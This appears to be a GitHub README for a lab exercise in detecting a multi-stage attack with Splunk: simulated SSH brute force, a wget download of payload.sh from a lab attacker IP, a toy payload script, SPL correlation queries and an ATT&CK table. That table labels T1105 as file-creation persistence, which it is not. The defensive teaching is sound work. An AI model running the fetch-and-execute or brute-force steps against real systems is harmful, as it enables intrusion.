






# Multi-Stage Attack Detection

---

## Overview

This project demonstrates detection of a multi-stage attack chain using Splunk Enterprise in a controlled lab.

The attack simulates:

- SSH brute force attack
- Successful authentication
- Payload delivery using wget
- Payload execution and file creation
- External communication attempt

The goal is to correlate multiple low-level events into a single high-confidence detection, showcasing SOC L2 detection engineering capability.

---

## Lab Architecture

| Component        | Role                     |
|------------------|--------------------------|
| Windows 11       | Splunk Enterprise (SIEM) |
| Kali Linux       | Attacker                 |
| Ubuntu           | Victim                   |
| Splunk Forwarder | Log collection           |

---

## Attack Demonstration

### Step 1 — SSH Brute Force

Attacker performs brute force using Hydra.

This generates:

- Multiple `Failed password` logs

---

### Step 2 — Successful Login

After brute force:

```
Accepted password for kali from 192.168.1.64
```

Confirms:

- Initial access achieved

---

### Step 3 — Payload Delivery

Victim downloads payload:



```bash
wget http://192.168.1.64:8000/payload.sh
```

Logged in:

- Web server logs (`apache access.log`)
- Command execution logs

---

### Step 4 — Payload Execution

Payload content:

```bash
#!/bin/bash
echo "malicious activity detected" > /tmp/malware.txt
wget http://example.com -O /dev/null
```

Effects:

- File created → `/tmp/malware.txt`
- External connection attempt

---

### Step 5 — External Communication Attempt

```bash
wget http://example.com
```

Even though DNS fails:

- Attempt is logged
- Valuable indicator of compromise (IOC)

---

## Detection Engineering (SPL Queries)

### 1. SSH Brute Force Detection

```spl
index=* "Failed password"
| rex "from (?<src_ip>\d+\.\d+\.\d+\.\d+)"
| stats count as failed_attempts by src_ip
| where failed_attempts > 5
| sort - failed_attempts
```

**Explanation:**

- Searches for failed SSH logins
- Extracts attacker IP using regex
- Counts attempts per IP
- Filters suspicious activity (>5 attempts)



---

### 2. Successful Login Detection

```spl
index=* "Accepted password"
| rex "from (?<src_ip>\d+\.\d+\.\d+\.\d+)"
| table _time src_ip _raw
```

**Explanation:**

- Detects successful authentication
- Extracts attacker IP
- Displays raw log for investigation



---

### 3. Payload Download Detection (WGET)

```spl
index=* "wget"
| table _time host source _raw
```

**Explanation:**

- Detects command execution involving `wget`
- Shows time, host, log source, and raw event
- Detected via Apache logs (`access.log`)



---

### 4. File Drop Detection

```spl
index=* ("malware.txt" OR "payload.sh")
| table _time host source _raw
```

**Explanation:**

- Detects file creation artifacts
- Tracks malicious file presence
- Helps confirm execution stage



---

### 5. Correlation Rule (Multi-Stage Detection)

```spl
index=*
(
    "Failed password" OR
    "Accepted password" OR
    "wget http" OR
    "malware.txt"
)
| rex "from (?<src_ip>\d+\.\d+\.\d+\.\d+)"
| eval src_ip=coalesce(src_ip, host)
| transaction src_ip maxspan=10m
| where eventcount >= 3
| table _time src_ip eventcount _raw
```

**Explanation:**

| Part               | Meaning                              |
|--------------------|--------------------------------------|
| `index=*`          | Searches all logs                    |
| keywords           | Captures all attack stages           |
| `rex`              | Extracts attacker IP                 |
| `coalesce()`       | Handles missing fields               |
| `transaction`      | Groups events by attacker            |
| `maxspan=10m`      | Time window                          |
| `eventcount >= 3`  | Ensures multi-stage detection        |

Only triggers when multiple attack stages occur.



---

## MITRE ATT&CK Mapping

| Stage          | Technique                    | ID     |
|----------------|------------------------------|--------|
| Initial Access | Brute Force                  | T1110  |
| Execution      | Command Execution            | T1059  |
| Persistence    | File Creation                | T1105  |
| C2             | Application Layer Protocol   | T1071  |
